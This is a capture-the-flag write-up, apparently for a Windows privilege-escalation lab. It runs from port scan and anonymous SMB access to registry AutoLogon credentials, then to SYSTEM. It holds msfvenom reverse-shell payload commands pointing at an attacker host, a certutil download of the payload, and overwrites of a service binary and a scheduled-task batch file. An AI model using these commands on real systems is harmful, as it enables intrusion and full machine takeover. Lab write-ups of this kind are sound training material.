# Port Scanning
```rustscan
rustscan -a 10.49.183.27 -- -A

Open 10.49.183.27:135
Open 10.49.183.27:139
Open 10.49.183.27:445
Open 10.49.183.27:3389
Open 10.49.183.27:5985
Open 10.49.183.27:7680
Open 10.49.183.27:47001
Open 10.49.183.27:49667
Open 10.49.183.27:49669
Open 10.49.183.27:49670
Open 10.49.183.27:49666
Open 10.49.183.27:49664
Open 10.49.183.27:49665
Open 10.49.183.27:49672
Open 10.49.183.27:49671

PORT      STATE  SERVICE       REASON          VERSION
135/tcp   open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open   netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds? syn-ack ttl 126
3389/tcp  open   ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: PRIVESC
|   NetBIOS_Domain_Name: PRIVESC
|   NetBIOS_Computer_Name: PRIVESC
|   DNS_Domain_Name: privesc
|   DNS_Computer_Name: privesc
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-06T08:53:29+00:00
| ssl-cert: Subject: commonName=privesc
| Issuer: commonName=privesc
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-10T06:39:22
| Not valid after:  2026-11-09T06:39:22
| MD5:     cab5 2ba5 110d a22e 8776 fc49 279e 22b4
| SHA-1:   d83b a5cf 3b55 b9e8 4d07 0970 7465 79d6 6536 e680
| SHA-256: b5ec c096 ef74 ebbf 15b4 bd6f 020b c20c e317 07e1 89ec 3179 f3a7 33cd 96a1 d341
| -----BEGIN CERTIFICATE-----
| MIIC0jCCAbqgAwIBAgIQE6BpY6+/WbZA4drQk3++3jANBgkqhkiG9w0BAQsFADAS
| MRAwDgYDVQQDEwdwcml2ZXNjMB4XDTI2MDUxMDA2MzkyMloXDTI2MTEwOTA2Mzky
| MlowEjEQMA4GA1UEAxMHcHJpdmVzYzCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAMbI5C2cTrbEs/BYWCA80MxQRkrqat1nLyBKKoYZjEPso2WnCzVurUMO
| XxTyuot7zw6xZDH5EJNz8pVlzRi1kaVbJ55nr13UE0POLD/pinBvirpIVTc0Z8VD
| NEgqmXYsiIGj1E8TTuTcBnRVSabGOk+6XiOBIUJNJ6jbOc6iQv6ivrWYh4ifKaSI
| 1NhEKXqSV2U+N6bbLoYSl/ubp8Okh92h0bOroqg0GZaZE2V4SQME5rU2U1Fw06az
| ARG/h/dC5FhaMVHk0RsRxTyT0fYEexD9Srb8MIDQRKGcfL+X33na2TJEX6EGACNP
| FSJTuLZSFhzO+8QIa0RsFat6A7Mm5vECAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYB
| BQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IBAQBRtsZ3Igj8nm0V
| lFNp0DYT8mtvq7GC7/C68psBRYQckgoPvjt3R7DG8nAigAVEvFCME8u6pM6aR8Yo
| CQWN+MpR9k5nr+JkblN3YOQi8vAijNPnPpn5vRrblWzAY5SzDwYx3AzKUX70aHog
| T6As9YlJ6cOLZaaV9AXAFeAAzzYY9OmNF00ch9zi5ZcOjA6kR6u9QZ0y10CntgdB
| uZsjClGNRAOGGSQ1wxCq6vHUn7f6k8zPSvJDGkUbiloUreXtLJdhOoVDYmlFn9Ps
| kmRJift5BjU5ptKpG4EtRBbaVeb2ctlmlZoO3plXLQQbFxtVGN4mbEtQpEBxmhto
| lntb9Cm4
|_-----END CERTIFICATE-----
|_ssl-date: 2026-07-06T08:53:37+00:00; 0s from scanner time.
5985/tcp  open   http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  closed pando-pub     reset ttl 126
47001/tcp open   http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open   msrpc         syn-ack ttl 126 Microsoft Windows RPC
```
As the smb port is open, so I started with it.
```bash
❯ smbclient -N -L //10.49.183.27            

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Public          Disk      Public file share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.49.183.27 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

❯ smbclient -N //10.49.183.27/public          
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 11 12:40:51 2026
  ..                                  D        0  Mon May 11 12:40:51 2026
  welcome.txt                         A      177  Mon May 11 12:40:50 2026

		7863807 blocks of size 4096. 3587747 blocks available
smb: \> get welcome.txt
getting file \welcome.txt of size 177 as welcome.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```
Checking the `welcome.txt` file I found some credentials.
```bash
❯ cat welcome.txt 
Welcome to CORP-NET.

New employee default credentials
================================
Username : thmuser
Password : Password1!

Please change your password after first login.
```
Using these credential I logged in as `thmuser`. <br/>
 <br/>
Got My first flag. <br/>
 <br/>
### User thmuser
On cmd using this query I have found  user `notadmin` password.
```cmd
C:\Users\thmuser.PRIVESC>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"                                                                                                                                                 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon                                                    AutoRestartShell    REG_DWORD    0x1                                                                                    Background    REG_SZ    0 0 0                                                                                           CachedLogonsCount    REG_SZ    10                                                                                       DebugServerCommand    REG_SZ    no                                                                                      DisableBackButton    REG_DWORD    0x1                                                                                   EnableSIHostIntegration    REG_DWORD    0x1                                                                             ForceUnlockLogon    REG_DWORD    0x0                                                                                    LegalNoticeCaption    REG_SZ                                                                                            LegalNoticeText    REG_SZ                                                                                               PasswordExpiryWarning    REG_DWORD    0x5                                                                               PowerdownAfterShutdown    REG_SZ    0                                                                                   PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}                                               ReportBootOk    REG_SZ    1                                                                                             Shell    REG_SZ    explorer.exe                                                                                         ShellCritical    REG_DWORD    0x0                                                                                       ShellInfrastructure    REG_SZ    sihost.exe                                                                             SiHostCritical    REG_DWORD    0x0                                                                                      SiHostReadyTimeOut    REG_DWORD    0x0                                                                                  SiHostRestartCountLimit    REG_DWORD    0x0                                                                             SiHostRestartTimeGap    REG_DWORD    0x0                                                                                Userinit    REG_SZ    C:\Windows\system32\userinit.exe,                                                                 VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile                                                         WinStationsDisabled    REG_SZ    0                                                                                      scremoveoption    REG_SZ    0                                                                                           DisableCAD    REG_DWORD    0x1                                                                                          LastLogOffEndTimePerfCounter    REG_QWORD    0x42f622f30                                                                ShutdownFlags    REG_DWORD    0x80000027                                                                                AutoAdminLogon    REG_SZ    1                                                                                           DefaultUserName    REG_SZ    notadmin                                                                                   DefaultPassword    REG_SZ    P@ssw0rd!                                                                                  AutoLogonSID    REG_SZ    S-1-5-21-1966530601-3185510712-10604624-1009                                                  LastUsedUsername    REG_SZ    notadmin                                                                                                                                                                                                      HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AlternateShells                                HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions                                   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\UserDefaults                                   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked                               HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\VolatileUserMgrKey
```
So the credential is:
```
username: notadmin 
password: P@ssw0rd!
```
Using the following command in cmd I became `notadmin` user.
```cmd
runas /user:notadmin cmd.exe
```
And retrieved the flag. <br/>
 <br/>
### User notadmin 
As the username of the next user is `svcadmin` so I thought it could be a service exploitation. So I look for a service for user `svcadmin`. And I found a service `THMSvc`.
To check privilege I ran the following command. And found it has malicious privilege for user `notamdin`
```cmd
icacls C:\Windows\THMSVC
```
 <br/> 
I constructed a `msfvenom` windows reverse shell payload with the following command.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4445 -f exe-service -o svc.exe
```
And download it from my machine using the following command and replaced with the original `svc.exe` file.  <br/>
```cmd
certutil -urlcache -split -f http://192.168.168.41:4555/svc.exe C:\Windows\THMSVC\svc.exe
```
Then I start the service with `sc start THMSvc`. And got the reverse shell. <br/>
 <br/>
 <br/>
And the 3rd flag. <br/>
 <br/>
### User svcadmin 
In `C:\Windows\Tasks` directory I have found a scheduled task. <br/>
I checked the permissions of that task with the following command. <br/>
```cmd
icacls cleanup.bat
```
 <br/>
And it is modifiable by user `svcadmin`. So I created a shell with the `msfvenom` and uploaded it on the machine.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=1337 -f exe -o shell.exe
```
 <br/>
Then I replaced the content of `cleanup.bat` with the following command.
```cmd
cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
```
 <br/>
After that when the task executed it provided a reverse shell as `nt authority\system` <br/>
 <br/>
